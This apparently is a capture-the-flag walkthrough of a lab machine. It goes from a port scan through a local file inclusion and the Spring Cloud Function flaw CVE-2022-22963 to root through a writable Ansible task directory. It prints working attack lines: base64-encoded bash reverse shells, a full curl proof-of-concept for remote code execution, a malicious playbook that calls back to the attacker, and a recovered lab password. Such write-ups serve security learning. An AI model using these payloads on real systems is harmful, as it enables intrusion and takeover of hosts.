 # Recon
```
 nmap -p- --min-rate 10000 10.10.11.204      
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-31 03:57 EEST
Stats: 0:00:26 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 79.78% done; ETC: 03:57 (0:00:07 remaining)
Stats: 0:00:26 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 80.07% done; ETC: 03:57 (0:00:06 remaining)
Nmap scan report for 10.10.11.204
Host is up (0.088s latency).
Not shown: 65327 filtered tcp ports (no-response), 206 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 33.18 seconds
```
- Upon browsing to port 8080 , we see the webpage
- Let us explore the endpoints listed in the page's top navigation bar
- The "Upload" functionality at /upload seems interesting as it has the option to upload a file
- When we try to upload a random .txt file, the page throws an error saying that only image files are allowed
- Upon successfully uploading an image file, we are provided with the option to view the uploaded image
- The "View your image" hyperlink takes us to the /show_image endpoint, which appends an img query parameter to the URL , whose value is the name of the uploaded image file
- the application reads the value of the img parameter in the URL and includes the corresponding file on the server
- if the application is not properly sanitizing the img parameter, we could craft a malicious request that includes a file outside of the intended directory- this is known as a Local File Inclusion (could include the /etc/passwd file on the remote host)
- intercept the HTTP request to the /show_image endpoint using the BurpSuite proxy, send the intercepted request to Repeater by pressing Ctrl+R and send the LFI payload in the img parameter to try to read the /etc/passwd file
- We can successfully read the contents of the /etc/passwd file in the HTTP response, thus verifying the presence of the LFI vulnerability in the web app.
- specifying the path of the /var/www/ directory, which is commonly used by web applications, we can reveal potential sub-directories
- ```
  ../../../../../../var/www
  ```
- By carefully examining the /var/www/WebApp/pom.xml file, we find that the web app is using version 3.2.2 of the Spring-Cloud-Function-Web module
- quick search about available exploits for that specific version reveals that it is vulnerable to Remote Code Execution ( RCE ), addressed in CVE-2022-22963
- to trigger the Remote Code Execution ( RCE ), we need to send a malicious POST request to the /functionRouter endpoint of the web app
-  First, we generate a Base64 -encoded Bash reverse shell payload using the following command
-  ```
   echo -n "bash -i >& /dev/tcp/10.10.16.5/1337 0>&1" | base64
   ```
- The POST request must include the following HTTP header. We paste the generated payload into the exec() function and pipe it into bash
```
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("bash
-c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi41LzEzMzcgMD4mMQ==}|{base64,-d}|{bash,-
i}")
```
- i couldnt get ashell from above so i used metasploit and fond the exploit but also couldnt get ashell
- after some search found this poc
```
curl -i -s -k -X $'POST' -H $'Host: 10.10.11.204:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi41LzEzMzcgMD4mMQ==}|{base64,-d}|bash")' --data-binary $'exploit_poc' $'http://10.10.11.204:8080/functionRouter'
```
- and we got ashell as frank
- The shell can be upgraded to a TTY shell using the following commands
```
script /dev/null -c bash
export TERM=xterm
# Control + z
stty raw -echo && fg
# Press Enter (Return) twice
```
- after searching frank system we found this
```
cat /home/frank/.m2/settings.xml
```
- phil password ** DocPhillovestoInject123 **
- now switch to phill
- we found the user flag on phill home
# Privilege Escalation
- the pspy utility. We can download the pspy binary on the remote host by hosting it on our local machine using a Python HTTP server
- After letting the pspy binary run for a few minutes, we can see the following processes running as root show up every 2 minutes indicating that they are likely being run as a cronjob
- Google search reveals that ansible-parallel is a Python package that is used to execute multiple Ansible playbooks in parallel
- The /usr/local/bin/ansible-parallel binary is operating with root privileges , as indicated by the UID=0 , and executes all *.yml files found in the
/opt/automation/tasks directory, which are most likely the Ansible playbook files
- Another cronjob removes all the files from the /opt/automation/tasks directory and then copies the file /root/playbook_1.yml to /opt/automation/tasks/
- This command is likely used to replace the contents of the /opt/automation/tasks/ directory with a single file called playbook_1.yml
-  ```
   cat /opt/automation/tasks/playbook_1.yml
   ```
- This playbook is designed to check if the webapp service is running on the local machine, and if not, to start and configure it to start automatically at boot time
- check the permissions on the /opt/automation/tasks/ directory, we find that only the user root and the user group staff have read and write access
- the user phil is a member of the user group staff
- Knowing that the cronjob executes any and all .yml files inside the directory with root permissions, we can create a malicious Ansible playbook YAML file containing a task that will execute our payload, allowing us to escalate our privileges
- We create a new file called playbook_2.yml on the remote host in the /opt/automation/tasks directory
- the YAML playbook will consist of a single task that runs a shell command on the localhost host
- The shell command is a Bash reverse shell payload that will attempt to connect back to our machine
```
- hosts: localhost
 tasks:
 - name: Checking webapp service
 shell: bash -c 'bash -i >& /dev/tcp/10.10.16.5/4444 0>&1'
```
- After two minutes, when the cronjob executes, we successfully get a reverse shell as root
- 
